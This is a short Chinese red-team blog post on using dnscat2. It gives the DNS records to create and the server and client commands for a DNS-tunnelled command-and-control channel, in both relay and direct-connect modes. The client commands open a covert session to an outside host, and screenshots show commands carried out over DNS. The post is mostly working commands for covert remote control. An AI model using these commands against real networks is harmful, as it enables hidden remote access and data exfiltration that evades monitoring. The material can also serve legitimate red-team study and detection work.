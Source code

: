 ```yaml
---
layout: post
title: dnscat2工具使用
excerpt: "工具试用"
categories: [Redteam]
comments: true
---
```



#### 中继使用方法
首先创建A记录和NS记录
```
主机记录		记录类型		记录值
ns				A				x.x.x.x
dns				ns				ns.snappyzz.com
```
这样当我们解析*.dns.snappyzz.com的时候,就会交给ns.snappyzz.com来解析,即x.x.x.x

我们在服务端运行
```
ruby ./dnscat2.rb dns.snappyzz.com --no-cache
```
在客户端运行
```
./dnscat --secret=xxxxxxxxxxxxxxxxxxx dns.snappyzz.com
```
我们发现命令已经通过dns的域名带出来
![Image text](https://raw.githubusercontent.com/snappyJack1/snappyjack1.github.io/master/img/dnscat2_1.png)

#### 直连方法

服务端运行
```
ruby ./dnscat2.rb
```

客户端运行
```
./dnscat --dns server=x.x.x.x,port=53 --secret=6b214ee68c5976465d0fce18db5d3a28
```
我们可以看到流量已经通过直接连接的方式发送dns协议,通过伪造的域名发送
![Image text](https://raw.githubusercontent.com/snappyJack1/snappyjack1.github.io/master/img/dnscat2_2.png)

同样它还有端口转发功能,后续用到了再看